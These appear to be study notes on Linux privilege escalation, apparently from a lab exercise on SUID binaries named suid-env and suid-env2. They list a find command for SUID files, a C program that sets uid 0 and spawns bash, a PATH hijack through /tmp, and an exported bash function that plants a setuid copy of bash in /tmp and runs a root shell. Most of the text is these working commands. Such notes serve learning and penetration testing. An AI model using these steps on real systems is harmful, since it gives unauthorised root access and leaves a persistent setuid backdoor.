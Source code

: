 Enviromental variables --> system wide variables used by shells,child process

**env**

**PART 1** 

if we do  
`find  / -type f -perm -04000 -ls 2>/dev/null`


![](/images/suid_mew.png)
 lets say we find  **/usr/local/bin/suid-env**
 
 
 
 binary if we what it does we found that it is actually starting a apache service  as below 

![](/images/suid_new.png)


Exploitation 

what if we can insert malicious service  instead of original one 

we create a file called service.c 

int main() {
 setgid(0); 
 setuid(0) ; 
 system("/bin/bash"); 
 return 0 ;
}

then compile the binary 

using 

gcc service.c -o service 

add the service to our PATH by 


**export PATH=/tmp:$PATH** 



then run the SUID  **/usr/local/bin/suid-env**




**PART 2**


![](/images/suid_new_1.png)

what if the SUID is calling the full path 

create a malicious function for the full path 

"
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s  /tmp/bash && /tmp/bash -p;}

"

then export the service 
using 

**export -f /usr/sbin/service**


run the binaries 

**/usr/local/bin/suid-env2**



